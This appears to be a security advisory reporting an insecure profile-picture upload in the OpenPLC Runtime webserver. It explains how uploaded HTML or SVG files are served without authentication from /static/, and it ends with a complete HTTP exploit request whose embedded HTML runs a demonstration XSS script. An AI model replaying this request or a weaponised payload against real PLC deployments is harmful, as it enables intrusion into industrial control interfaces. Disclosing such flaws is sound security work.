



# 🔥 Insecure File Upload in OpenPLC Runtime Webserver

## 📌 Summary

I discovered a vulnerability in the OpenPLC Runtime webserver (released version: 2024-12-31) that allows authenticated users to upload arbitrary files (e.g., `.html`, `.svg`) as profile pictures. These files are stored in the `/static/` directory and are accessible **without authentication**, enabling stored XSS or malicious hosting scenarios.

---

## 🧪 Affected Component

- Route: `/edit-user`
- Affected: File upload functionality for profile images

---

## ⚠️ Impact

- Arbitrary file upload with insufficient MIME and extension validation
- Stored XSS
- Malicious content hosting
- Unauthenticated access to uploaded files
- CSRF 

---

## 🎯 Attack Vector

1. Authenticated user uploads a `.html` or `.svg` file as a profile picture.
2. File is stored in `/static/` and given a predictable ID (e.g., `http://localhost:8080/static/336029.html`)
3. Any user (even unauthenticated) can access the uploaded file directly.
4. If the file contains JavaScript or other malicious code, it will execute in the victim’s browser.

---

## 📸 Visual Proof of Concept

### Dashboard when PLC is running


### Uploading a malicious `.html` file


### Using "All Files" to bypass image filter


### Uploaded XSS executed from `/static/`


---

## 🎞️ Video PoCs

- **Basic PoC demo**  
   [`poc de base.mp4`](https://github.com/user-attachments/assets/03b940c0-db32-49ec-ac9b-adebc3797e25)

- **Unauthenticated access demonstration**  
   [`unauthenticated.mp4`](https://github.com/user-attachments/assets/9133f961-1aaf-4223-a3e9-26311774e0ad)

- **CSRF Potential Abuse**  
   [`poc csrf.mp4`](https://github.com/user-attachments/assets/36960ecd-b62a-4e76-b381-542ad424e726)

---

## 📤 Exploit Request Example with Burp Suite Repeater

```http
POST /edit-user HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1397
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: [OpenPLC URL]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW3GoLRyFS7dyLS2B
User-Agent: [UA]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8080/edit-user?table_id=10
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=[cookie]
Connection: close

------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_id"

10
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="full_name"

OpenPLC User
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_name"

openplc
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_email"

openplc@openplc.com
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_password"

mypasswordishere
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="file"; filename="poc cve.html"
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
  <title>PoC – Unfiltered Upload</title>
</head>
<body>
  <h1>Proof of Concept</h1>

  <p>Payload uploaded on vulnerable endpoint. If filtering is broken, executing script below proves stored XSS.</p>

  <h2>XSS Demo (auto-executed)</h2>
  <script>alert('PoC xss')</script>

  <h2>CSRF</h2>
  

  <h2>document.domain</h2>
  <p>Opened from: <script>document.write(document.domain)</script></p>

  <h2>Manual link to malicious HTML</h2>
  <a href="https://google.com/" target="_blank">Click to redirect on google.com</a>
</body>
</html>

------WebKitFormBoundaryW3GoLRyFS7dyLS2B--
